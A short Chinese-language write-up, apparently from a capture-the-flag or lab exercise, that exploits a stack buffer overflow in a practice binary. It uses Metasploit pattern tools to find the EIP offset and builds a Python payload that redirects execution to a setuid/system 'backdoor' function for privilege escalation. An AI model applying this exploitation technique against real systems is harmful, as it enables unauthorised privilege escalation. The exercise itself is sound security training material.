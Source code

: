 生成负载，长度从小到大尝试即可
```Shell
msf-pattern_create -l 100
# Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
最终落在 `EIP` 上的是 `0Ac1` 。
```
EIP: 0x31634130 ('0Ac1')
```
定位偏移量
```Shell
msf-pattern_offset -l 100 -q 31634130
# [*] Exact match at offset 62
```
即前62个字符无关紧要
```Shell
python -c "print('A'*62+'B'*4+'C'*34)"
```
有很可疑的函数名
```
0x08048676  backdoor
0x080486ad  vuln
```
查看函数汇编指定
```Shell
gdb$ disas vuln
gdb$ disas backdoor
```
可以看到 `vuln` 函数中调用了 `strcpy()` ，可能是产生缓冲区溢出的来源。
而 `backdoor` 函数中调用了 `setuid()` 和 `system()` ，可能是我们需要利用的。
目标：让 `EIP` 指向 `backdoor()` 的起始地址 `0x08048676`
```Shell
python -c "import struct; print('name\n1\n20\n1\n' + 'a'*62 + struct.pack('I', 0x08048676))" > payload
```
执行程序
```Shell
# 这里的-可以让输入不中断 这样程序就不会停止运行
cat payload - | ./add_record
```
提权成功
